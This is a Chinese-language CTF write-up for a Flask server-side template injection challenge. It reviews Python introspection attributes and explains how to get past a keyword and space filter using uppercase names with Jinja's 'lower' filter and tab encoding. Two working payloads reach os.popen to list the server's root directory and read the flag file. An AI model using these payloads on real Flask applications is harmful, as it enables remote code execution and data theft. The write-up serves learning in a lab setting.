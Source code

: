# Week4 BabySSTI_Two 200-

## 0、知识点与工具

>   Flask SSTI模板注入

>   远程代码执行

>   工具burpsuite

>   ```java
>   回顾一下Python的内置属性
>       __class__：每个类都有的,表示当前类
>       __bases__：每一个类都有的一个属性，列出其基类
>       __mro__：列举类解析函数的执行顺序，也就是解析一个类构造函数的调用顺序
>       __subclasses__：获取所有子类集合
>       __init__：初始化一个类
>       __globals__：只读，以字典的形式返回函数所在的全局命名空间所定义的全局变量
>       __dict__：可写；以字典的形式返回命名空间所支持的任意自定义的函数属性
>       __builtins__：定义内建名称空间（Python在启动时会首先加载内建名称空间）
>       	在控制台直接输入__builtins__时（Python2）会出现__builtin__
>       __import__
>       __code__：可写；返回已编译的函数对象
>       __name__：获取函数的名称
>       __doc__：用于获取函数的文档说明，如果没有，则返回 None
>       __module__：返回函数所在的模块，如果无则返回None
>       __defaults__：以元组的形式返回函数的默认参数，如果无默认参数则返回None
>       __closure__：以包含cell的元组形式返回闭包所包含的自由变量
>       
>       
>   ```
>
>   [插眼](https://segmentfault.com/a/1190000005685090#item-7)

>   关于`__builtins__`
>
>   -   在启动Python解释器或运行一个Python程序时
>   -   内建名称空间都是从`__builtins__`模块中加载的
>   -   只是`__builtins__` 本身是对Python内建模块`__builtin__`的引用
>       -   如果是在主模块`__main__`中，`__builtins__`直接引用`__builtin__`模块，此时模块名`__builtins__`与模块名``__builtin__`指向的都是同一个模块，即`<builtin>`内建模块（这里要注意变量名和对象本身的区别）
>       -   如果不是在主模块中，那么`__builtins__`只是引用了`__builtin__.__dict__`

## 1、分析

>   flask模板注入第二弹！

>   首先页面也就是需要传入一个name参数，然后页面就会出现效果

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120154320.png)

>   然后继续测试

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120154344.png)

>   表达式还是执行了

>   既然是第二弹，那肯定做了过滤
>
>   比如：class、subclass、init、globals、popen、空格、等等好多

>   绕过的方法也有很多，但在这题能有用的发现有两种如：大写转小写绕过和编码绕过（感觉编码绕过是万能的）（bushi

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120160025.png)



>   然后掏出之前的写payload加点料，然后看一下flag是否在根目录
>
>   ```bash
>   {{[123]['__CLASS__'|lower]['__MRO__'|lower][-1]['__SUBCLASSES__'|lower]()[117]['__INIT__'|lower]['__GLOBALS__'|lower]['__BUILTINS__'|lower]['__IMPORT__'|lower]('os')['POPEN'|lower]('ls%09/')['read']()}}
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/202211201613715.png)





>   最后获取flag
>
>   ```bash
>   {{[123]['__CLASS__'|lower]['__MRO__'|lower][-1]['__SUBCLASSES__'|lower]()[117]['__INIT__'|lower]['__GLOBALS__'|lower]['__BUILTINS__'|lower]['__IMPORT__'|lower]('os')['POPEN'|lower]('tail%09/f*')['read']()}}
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/20221120161145.png)

